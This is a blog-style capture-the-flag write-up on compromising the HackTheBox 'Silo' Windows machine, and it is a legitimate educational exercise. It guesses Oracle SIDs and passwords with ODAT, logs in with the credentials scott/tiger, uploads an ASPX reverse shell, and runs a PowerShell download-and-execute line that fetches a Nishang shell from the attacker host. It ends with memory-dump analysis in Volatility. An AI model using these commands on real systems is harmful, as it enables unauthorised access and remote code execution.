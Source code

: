 ```yaml
---
title: HackTheBox_Silo w/o Metasploit 
date: 2024-08-01 01:22:00 -500
categories: [hackthebox,CTF,writeups]
tags: [ctf,hackthebox,writeup,windows,medium]
---
```


## Silo Writeup


### Enumeration

#### Nmap Scan Results

![Image](/assets/img/silo/image.png)  
![Image](/assets/img/silo/image_1.png)  

### Vulnerabilities and Exploitation

#### Download ODAT

[ODAT GitHub Repository](https://github.com/quentinhardy/odat)  

![Image](/assets/img/silo/image_2.png)  

Clone the repository and run the `odat.py` file:

![Image](/assets/img/silo/image_3.png)  
![Image](/assets/img/silo/image_4.png)  
![Image](/assets/img/silo/image_5.png)  
![Image](/assets/img/silo/image_6.png)  

Fix installation issues:

```python

pip3 uninstall crypto
pip3 uninstall pycrypto
pip3 install pycryptodome

```

![Image](/assets/img/silo/image_7.png)  

#### Guess SID

Use ODAT to guess the SID:

```python
python3 [odat.py](http://odat.py/) sidguesser -s 10.10.10.82 -p 1521
```

![Image](/assets/img/silo/image_8.png)  

#### Nmap Script for SID

Use an nmap script to find the SID:

![Image](/assets/img/silo/image_9.png)  

The SID is XE. 

Check password guessing options:

![Image](/assets/img/silo/image_10.png)  
![Image](/assets/img/silo/image_11.png)  

Update the wordlist to include uppercase characters:

![Image](/assets/img/silo/image_12.png)  
![Image](/assets/img/silo/image_13.png)  
![Image](/assets/img/silo/image_14.png)  

Format the wordlist properly:

![Image](/assets/img/silo/image_15.png)  

#### Password Guessing

Guess the password using the updated list:

![Image](/assets/img/silo/image_16.png)  

Valid credentials: scott/tiger  

Use the credentials to access:

```python
sqlplus64 scott/tiger@10.10.10.82:1521/XE
```

![Image](/assets/img/silo/image_17.png)  
![Image](/assets/img/silo/image_18.png)  
![Image](/assets/img/silo/image_19.png)  

#### Privilege Escalation

Check user privileges:

![Image](/assets/img/silo/image_20.png)  

Use ODAT to upload a reverse shell:

```python
python3 [odat.py](http://odat.py/) utlfile -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --putFile C:\\inetpub\\wwwroot muq.aspx muq.aspx --sysdba
```

![Image](/assets/img/silo/image_21.png)  
![Image](/assets/img/silo/image_22.png)  

Visit the page to access the reverse shell:

![Image](/assets/img/silo/image_23.png)  

#### Nishang Shell

Download the Nishang shell:

[Nishang GitHub Repository](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)  

Add the following line to invoke the shell:

```powershell
tail -1 Invoke-PowerShellTcp.ps1
```

![Image](/assets/img/silo/image_24.png)  
![Image](/assets/img/silo/image_25.png)  
![Image](/assets/img/silo/image_26.png)  

#### Triggering the Webshell

Use the webshell to download and execute the Nishang shell:

```powershell
powershell IEX(New-Object Net.WebClient).downloadString('[http://10.10.14.31:8000/nish.ps1](http://10.10.14.31:8000/nish.ps1)')
```

![Image](/assets/img/silo/image_27.png)  

#### Root Flag

Retrieve the user flag and then the root flag. Investigate any additional files:

![Image](/assets/img/silo/image_28.png)  
![Image](/assets/img/silo/image_29.png)  

Check if there are issues with the password character display:

![Image](/assets/img/silo/image_30.png)  
![Image](/assets/img/silo/image_31.png)  

#### Memory Dump Analysis

Get the OS version and clone Volatility:

![Image](/assets/img/silo/image_32.png)  

Clone Volatility:

```bash
git clone https://github.com/volatilityfoundation/volatility.git
cd volatility
python2 setup.py install
```

Analyze the memory dump with Volatility:

```bash
python2 [vol.py](http://vol.py/) -f ~/Downloads/SILO-20180105-221806.dmp imageinfo
```

Check processes in the memory dump:

![Image](/assets/img/silo/image_33.png)  

Use the WIN2012 profile to check the process tree:

```bash
python2 [vol.py](http://vol.py/) -f ~/Downloads/SILO-20180105-221806.dmp --profile Win2012R2x64 pstree
```

![Image](/assets/img/silo/image_34.png)  
![Image](/assets/img/silo/image_35.png)  

Dump files from memory:

```bash
python2 [vol.py](http://vol.py/) -f ~/Downloads/SILO-20180105-221806.dmp --profile Win2012R2x64 dumpfiles -Q 0x12345678 -D /tmp/
```

Analyze extracted files:

```bash
strings /tmp/extracted_file > strings.txt
```

![Image](/assets/img/silo/image_36.png)  
![Image](/assets/img/silo/image_37.png)  



